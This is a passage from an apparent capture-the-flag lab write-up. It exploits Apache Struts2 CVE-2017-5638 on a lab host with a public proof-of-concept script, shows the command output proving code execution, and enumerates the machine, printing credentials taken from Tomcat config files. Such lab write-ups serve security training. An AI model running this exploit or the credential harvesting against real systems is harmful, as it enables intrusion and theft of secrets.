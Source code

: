 ### CVE-2017-5638

The highest rated vulnerabilities on the cvedetails list was CVE-2017-5638, which has a 10. It’s also one said to have been used on Equifax. There’s a [POC python script on the metasploit github](https://github.com/rapid7/metasploit-framework/issues/8064).

```

root@kali# python cve-2017-5638.py http://10.10.10.64/Monitoring/example/Welcome.action "ls -l"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: ls -l

total 16
lrwxrwxrwx 1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r-- 1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x 2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx 1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x 2 root    root    4096 May  2 04:46 policy
drwxrwxr-x 4 tomcat8 tomcat8 4096 Feb 10 21:12 webapps
lrwxrwxrwx 1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

root@kali# python cve-2017-5638.py http://10.10.10.64/Monitoring/example/Welcome.action "id"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: id

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

```

w00t! Code execution.

## Local Enumeration

At this point, we’d like to get a better shell, and we’d like to get a user with more privilege. Here’s what we can find:
- Low priv user, tomcat8, can’t access a lot
- There is a home dir for richard
- In `/etc/tomcat8/tomcat-users/xml`, there’s a username and password:
  - `<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />`
  - those creds don’t seem to work on the `/manager` path as expected
- Outbound traffic is heavily filtered - not able to `wget` or `nc` to attacker box
- `ifconfig`, `netstat`, `curl` not on host –> maybe container? just stripped down?
- more creds in local dir, `/var/lib/tomcat8/db_connect`:

  ```

    [ssn]
    user=ssn_admin
    pass=AWs64@on*&
      
    [users]
    user=admin
    pass=admin

  ```
- `/proc/net/arp` shows other hosts:
